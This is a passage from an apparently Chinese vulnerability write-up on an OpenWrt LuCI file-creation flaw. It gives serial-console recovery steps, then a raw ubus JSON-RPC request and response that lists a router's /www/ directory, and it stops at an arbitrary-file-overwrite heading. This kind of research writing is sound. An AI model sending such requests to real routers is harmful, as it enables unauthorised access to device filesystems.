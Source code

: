 ### [](#救砖 "救砖")救砖

进测试了 X86 平台，其他平台可按照实际调整。

通过串口进入 OpenWrt，默认无身份验证，能进入 shell。只需要两步就能恢复。

（1）使用 passwd- 还原 passwd

（2）将 /etc/config/system 中的 log_file 置空，或改为其他无关的路径。

![](https://delikely.github.io/2020/02/11/OpenWrt-LuCi-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%88%9B%E5%BB%BA%E6%BC%8F%E6%B4%9E/image-20200112130533976.png)

如果存在授权认证，通过串口不能进入交互式 Shell，就只能通过 uboot 重新刷写了。

[](#有意思的内容 "有意思的内容")有意思的内容
--------------------------

### [](#系统文件目录列举 "系统文件目录列举")系统文件目录列举

```
POST /cgi-bin/luci/admin/ubus HTTP/1.1
Host: 192.168.7.143
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:73.0) Gecko/20100101 Firefox/73.0
Accept: */*
Accept-Language: zh-CN
Referer: http://192.168.7.143/cgi-bin/luci/
Content-Type: application/json
Content-Length: 119
Origin: http://192.168.7.143
Connection: close

[{"jsonrpc":"2.0","id":2,"method":"call","params":["9e3e02d9aad24fbfba163537d17d9b83","file","list",{"path":"/www/"}]}]
```

```
HTTP/1.1 200 OK
Connection: close
Content-Type: application/json
Cache-Control: no-cache
Expires: 0
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Content-Length: 501

[{"id":2,"jsonrpc":"2.0","result":[0,{"entries":[{"type":"directory","inode":1179,"ctime":1575129153,"atime":1575129153,"uid":0,"mtime":1575129153,"gid":0,"mode":16877,"name":"cgi-bin","size":4096},{"type":"file","inode":1184,"ctime":1575129153,"atime":1575129153,"uid":0,"mtime":1575129153,"gid":0,"mode":33188,"name":"index.html","size":524},{"type":"directory","inode":1185,"ctime":1575129153,"atime":1575129153,"uid":0,"mtime":1575129153,"gid":0,"mode":16877,"name":"luci-static","size":4096}]}]}]
```

### [](#任意文件覆盖 "任意文件覆盖")任意文件覆盖
